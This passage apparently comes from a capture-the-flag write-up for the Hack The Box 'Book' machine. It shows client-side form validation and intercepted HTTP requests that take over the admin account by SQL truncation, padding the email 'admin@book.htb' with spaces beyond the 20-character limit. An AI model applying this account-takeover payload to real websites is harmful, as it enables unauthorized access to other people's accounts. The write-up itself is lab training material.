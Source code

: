 ```bash
:: Progress: [4614/4614] :: Job [1/1] :: 34 req/sec :: Duration: [0:02:13] :: Errors: 106 ::
```

Let's see if we can create a account using email `admin@book.htb` 

```javascript
function  validateForm () {
  var x = document.forms["myForm"]["name"].value;
  var y = document.forms["myForm"]["email"].value;
  if (x == "") {
    alert("Please fill name field. Should not be more than 10 characters");
    return false;
  }
  if (y == "") {
    alert("Please fill email field. Should not be more than 20 characters");
    return false;
  }
}
````
Let's try to create account using admin@book.htb and intercept it's request in `Burp`

```
POST /index.php HTTP/1.1
Host: 10.10.10.176
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.176/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Connection: close
Cookie: PHPSESSID=mq1sob5pmstq0i55csvmlafcre
Upgrade-Insecure-Requests: 1

name=admin&email=admin@book.htb&password=123321
```
Here is the way of overriding `authority`: admin@book.htb padding with spaces to 20 characters at the back and adding an `arbitrary` character, a total of 21 characters.

So final request would be

```
POST /index.php HTTP/1.1
Host: 10.10.10.176
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.176/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Connection: close
Cookie: PHPSESSID=mq1sob5pmstq0i55csvmlafcre
Upgrade-Insecure-Requests: 1

name=admin&email=admin@book.htb      C&password=123321
```
